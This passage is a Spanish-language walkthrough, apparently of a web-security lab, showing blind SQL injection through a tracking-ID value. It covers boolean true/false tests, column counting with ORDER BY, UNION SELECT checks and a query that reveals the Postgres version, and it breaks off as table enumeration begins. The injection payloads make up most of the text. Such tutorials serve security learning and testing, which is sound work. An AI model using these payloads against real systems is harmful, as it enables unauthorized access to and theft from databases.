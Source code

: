 Payload cargado

```javascript
' and 1=1 --
```

La consulta se veria algo asi, donde comprueba el ID es valido y 1=1 es True, la consulta es valida.

```javascript
SELECT trackingId FROM someTable WHERE trackingId = 'ZJhQ1n4d7AtpomKX' and 1=1 -- '
```

![Welcome]({{site.url}}/images/SQLi/sqli-11/Payload Valido.png)

En caso que la consulta no sea valida no mostrara mensaje de `Welcome back!`, cargaremos un Payload False.

```javascript
' and 1=2 --
```
![Welcome]({{site.url}}/images/SQLi/sqli-11/Payload Invalido.png)

## Miramos cuantas columnas tiene

```javascript
' ORDER BY 1--
```

![Order By]({{site.url}}/images/SQLi/sqli-11/order by.png)

## Miramos que el campo sea String

El campo es de tipo `String`

```javascript
' UNION SELECT 'A'--
```

![String]({{site.url}}/images/SQLi/sqli-11/string.png)

## Miramos que BD esta corriendo

En este caso muestra el mensaje `Welcome back!` con la consulta de la version de Postgres.

```sql
' UNION SELECT version()--
```

![bd]({{site.url}}/images/SQLi/sqli-11/bd.png)

## Comprobamos nombre de tablas

Ya que `no` conocemos las tablas que tiene la BD, haremos un ataque para comprobar que tablas existen. Si existe la tabla tendra que mostrar el mensaje `Welcom back!` de lo contrario no mostrara nada. 
